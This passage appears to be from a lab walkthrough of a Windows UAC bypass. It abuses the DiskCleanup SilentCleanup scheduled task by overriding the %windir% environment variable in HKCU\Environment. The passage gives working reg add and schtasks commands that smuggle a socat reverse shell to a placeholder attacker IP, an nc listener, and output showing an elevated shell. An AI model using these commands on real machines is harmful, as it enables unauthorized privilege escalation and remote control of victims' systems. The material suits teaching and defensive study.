 The task can be run on-demand, executing the following command when invoked:

 `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to  inject commands through them and get them executed by starting the  DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%` as follows (without the quotes):

```
"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "
```

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used  by DiskCleanup. The resulting command would be (be sure to replace your  IP address where needed):

```
cmd.exe /c C:\tools\socat\socat.exe  TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM  \system32\cleanmgr.exe /autoclean /d %systemdrive%
```

Where anything after the "REM" is ignored as a comment.

### Putting it all together

Let's set up a listener for a reverse shell with nc:
 `nc -lvp 4446`

We will then connect to the backdoor provided on port 9999:
 `nc 10.10.186.4 9999`

And finally, run the following commands to write our payload to `%windir%` and then execute the DiskCleanup task (be sure to replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
        
```

As a result, you should obtain a shell with high IL:

- **Attacker's Machine**        

```shell-session
user@kali$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
        
```
